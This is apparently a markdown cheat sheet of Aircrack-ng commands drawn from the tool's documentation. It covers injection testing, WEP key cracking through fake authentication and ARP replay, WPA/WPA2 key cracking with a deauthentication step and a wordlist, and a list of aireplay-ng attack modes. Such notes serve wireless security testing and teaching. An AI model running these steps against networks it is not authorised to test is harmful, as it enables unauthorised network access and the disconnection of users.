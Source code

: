 # Aircrack-ng :
   * [Injection test](https://www.aircrack-ng.org/doku.php?id=injection_test)
     * The injection test determines if your card can successfully inject and determine the ping response times to the Access Point (AP)
      ```bash
         # List wireless interfaces
         iwconfig
         # Start the wireless interface in monitor mode on a specific AP channel
         airmon-ng start wlan0 8
         # Test the injection capability of the wireless device to the AP
         aireplay-ng -9 -e teddy -a 00:14:6C:7E:40:80 wlan0mon 
      ```
   ## WEP crack
   * [Flowchart : Wep Cracking](http://www.aircrack-ng.org/img/simple-wep-crack.gif)
   * [Crack WEP (with client)](https://www.aircrack-ng.org/doku.php?id=simple_wep_crack) (fake authentication combined with ARP request replay technique)
      ```bash
         # List wireless interfaces
         iwconfig
         # Start the wireless interface in monitor mode on the specific AP channel
         airmon-ng start wlan0
         # Show available AP
         airodump-ng wlan0mon
         # Start airodump-ng to capture the IVs
         airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w output wlan0mon
         # Use aireplay-ng to do a fake authentication with the access point (To associate with an access point)
         aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon
         # Start aireplay-ng in ARP request replay mode to inject packets
         aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon
         # Run aircrack-ng to crack key using the IVs collected
         aircrack-ng -b 00:14:6C:7E:40:80 output*.cap
      ```
   * [Crack WEP (without client)](https://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients)

  # WAP crack
  
   * Crack WPA/WPA2 pre-shared key
     * Start airodump-ng to collect authentication handshake
       * **airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0mon**
     * Use aireplay-ng to deauthenticate the wireless client
       * **aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon**
     * Run aircrack-ng to crack the pre-shared key
       * **aircrack-ng -w password.lst -b 00:14:6C:7E:40:80 psk*.cap**


   * [The upper data block shows the access points found](https://www.aircrack-ng.org/doku.php?id=newbie_guide)

      Name | Description
      ------------ | -------------
      **BSSID**   |	The MAC address of the AP|
      **PWR**     |	Signal strength. Some drivers don't report it|
      **Beacons** |	Number of beacon frames received. If you don't have a signal strength you can estimate it by the number of beacons: the more beacons, the better the signal quality|
      **Data** 	|Number of data frames received|
      **CH** 	    |Channel the AP is operating on|
      **MB**      |	Speed or AP Mode. 11 is pure 802.11b, 54 pure 802.11g. Values between are a mixture|
      **ENC**     |	Encryption: OPN: no encryption, WEP: WEP encryption, WPA: WPA or WPA2 encryption, WEP?: WEP or WPA (don't know yet)|
      **ESSID**   |	The network name. Sometimes hidden |

   * [The lower data block shows the clients found](https://www.aircrack-ng.org/doku.php?id=newbie_guide) 

      Name | Description
      ------------ | -------------
      | **BSSID**   | The MAC of the AP this client is associated to |
      | **STATION** | The MAC of the client itself |
      | **PWR**     | Signal strength. Some drivers don't report it  |
      | **Packets** | Number of data frames received  |
      | **Probes**  | Network names (ESSIDs) this client has probed |

   * [different attacks](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)

     * **--deauth count** : deauthenticate 1 or all stations (-0)
     * **--fakeauth delay** : fake authentication with AP (-1)
     * **--interactive** : interactive frame selection (-2)
     * **--arpreplay** : standard ARP-request replay (-3)
     * **--chopchop** : decrypt/chopchop WEP packet (-4)
     * **--fragment** : generates valid keystream (-5)
     * **--caffe-latte** : query a client for new IVs (-6)
     * **--cfrag** : fragments against a client (-7)
     * **--test** : tests injection and quality (-9)
     
     
